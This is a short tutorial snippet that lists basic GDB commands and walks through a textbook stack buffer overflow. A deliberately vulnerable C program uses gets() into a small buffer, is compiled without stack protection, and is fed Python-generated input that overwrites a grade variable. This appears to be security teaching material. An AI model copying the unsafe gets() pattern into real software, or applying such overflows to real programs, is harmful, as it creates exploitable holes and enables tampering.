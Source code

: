 ### GDB Usage:
```bash
# Launch debugger
gdb -q program_name

# Set Intel syntax
set disassembly-flavor intel

# List source code
list

# Set breakpoint  
br line_number

# Run program
run

# Examine memory
x/40x $esp

# Show frame info
info frame
```

### Buffer Overflow Example:

**grade.c:**
```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
    volatile char grade[] = "F";
    char buf[19];
    printf("Enter your student ID: ");
    gets(buf);
    printf("Hello %s! Your grade is %s!\n", buf, grade);
    return 0;
}
```

**Compilation:**
```bash
gcc -m32 -g -fno-stack-protector -w -o grade grade.c
```

**Exploitation:**
```bash
# Change grade from F to A
python3 -c 'print("A"*20)' | ./grade

# More controlled approach
python3 -c 'print("a1112407\0" + "A"*11)' | ./grade
```

---